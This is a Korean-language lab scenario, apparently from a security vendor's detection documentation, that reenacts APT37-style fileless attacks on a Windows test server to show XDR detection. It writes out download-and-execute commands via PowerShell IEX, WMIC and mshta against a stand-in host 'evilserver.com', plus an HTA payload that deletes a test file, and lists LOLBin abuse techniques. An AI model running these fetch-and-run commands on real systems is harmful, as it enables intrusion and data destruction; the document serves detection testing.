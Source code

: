 # APT37(ScarCruft) 기반 Windows 침투 시나리오 — LOL 및 파일리스 공격

## 1. 시나리오 개요

APT37(ScarCruft)은 북한과 연관된 위협 그룹으로, 정부 기관 및 특정 산업체를 타겟으로 정교한 스피어 피싱과 LOL(Living Off the Land) 기법을 활용한 공격을 수행합니다. 본 문서는 APT37의 전술 중 하나인 파일리스 침투 기법을 가상 환경에서 재현합니다.

---

## 2. 테스트 환경 구축

### 📡 공격 서버

* 웹 서버(Nginx 또는 Apache) 구축 필요
* `MALSCRIPT.ps1`, `MALSCRIPT.hta` 등의 공격 스크립트 업로드 필요 (예: `/var/www/html/`)

### 🖥 피해 서버

* Windows Server 2016 이상
* PowerShell 5.0 이상
* 백신 및 실시간 보호 기능 비활성화
* PLURA 에이전트 설치되어 있어야 함
* 테스트용 삭제 대상 파일 존재: `C:\Program Files\important-file.txt`

---

## 3. APT37 공격 특성

* PowerShell, WMIC, Mshta, CertUtil, rundll32 등 LOLBin 적극 활용
* 디스크 기록 없이 메모리 내에서 실행되는 **파일리스 공격(fileless)** 선호
* 주로 스피어피싱 문서 내 매크로나 HTA 호출로 초기 침투 수행

---

## 4. 침투 시나리오 수행

### 🧪 단계별 공격 시연

#### ☠️ PowerShell을 활용한 파일리스 공격 (T1059.001)

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://evilserver.com/MALSCRIPT.ps1')"
```

> `MALSCRIPT.ps1` 내용:

```powershell
Remove-Item 'C:\Program Files\important-file.txt'
```

📌 효과: 디스크에 흔적 없이 메모리 내에서 실행, 파일 삭제됨 → PLURA 탐지 가능

---

#### ⚙️ WMIC를 통한 원격 명령 실행 (T1047)

```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://evilserver.com/MALSCRIPT.ps1')\""
```

📌 효과: 파일리스 명령 실행 → 로그에는 wmic와 powershell 호출 흔적 → PLURA에서 확인

---

#### 🧿 Mshta를 활용한 HTA 실행 (T1218.005)

```cmd
mshta http://evilserver.com/MALSCRIPT.hta
```

> `MALSCRIPT.hta` 내용:

```html
<script>
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("powershell -NoProfile -ExecutionPolicy Bypass -Command \"Remove-Item 'C:\\Program Files\\important-file.txt'\"");
</script>
```

📌 효과: Mshta 실행 → 피해 서버에서 계산기 또는 삭제 명령 수행 → 탐지 가능

---

## 5. APT37 전술에 자주 활용되는 LOLBin 예시

| 기법         | 설명                       | 탐지 포인트                    |
| ---------- | ------------------------ | ------------------------- |
| PowerShell | 메모리 내 명령 실행              | 비정상 IEX, `DownloadString` |
| Mshta      | HTA 파일 실행                | 원격 HTA 호출 로그              |
| WMIC       | 명령 실행                    | 프로세스 호출 체인 분석             |
| Rundll32   | Reflective DLL Injection | 비정상 dll 호출 감지             |
| CertUtil   | Base64 디코딩               | `-decode` 옵션 로그 확인        |

---

## 6. 공격 흐름도 (Mermaid)

```mermaid
graph TD
    A[APT37 공격 서버] -->|MALSCRIPT.ps1 전송| B[피해 서버]
    B -->|PowerShell 실행| C[파일 삭제]
    B -->|WMIC 호출| D[PowerShell 실행]
    B -->|Mshta 호출| E[HTA 실행 및 명령 수행]
    C -->|삭제 결과| F[PLURA 탐지]
    D -->|삭제 결과| F[PLURA 탐지]
    E -->|삭제 결과| F[PLURA 탐지]
```

---

## 7. PLURA-XDR 대응 방안

* PowerShell 비정상 호출 및 `DownloadString`, `IEX` 탐지 정책
* WMIC/Mshta 실행 로그 연계 분석
* LOLBin 명령어 시그니처 기반 행위 분석 정책
* 로그 수집/탐지 연계된 실시간 알림 설정

👉 [자세히](plura_waf_xdr_detection.md)
